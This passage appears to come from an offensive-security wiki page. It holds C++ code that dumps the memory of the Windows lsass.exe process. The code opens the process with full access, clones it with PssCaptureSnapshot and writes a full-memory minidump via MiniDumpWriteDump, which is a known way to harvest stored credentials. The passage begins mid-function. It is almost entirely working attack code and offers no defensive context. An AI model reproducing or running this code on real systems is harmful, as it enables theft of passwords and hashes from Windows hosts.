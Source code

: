 ```cpp
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

	HANDLE snapshotHandle = NULL;
	DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
	ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
	CallbackInfo.CallbackParam = NULL;

	PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);

	BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);

	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}

	PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
	return 0;
}
```

![](../../.gitbook/assets/capture-snapshot-lsass.gif)
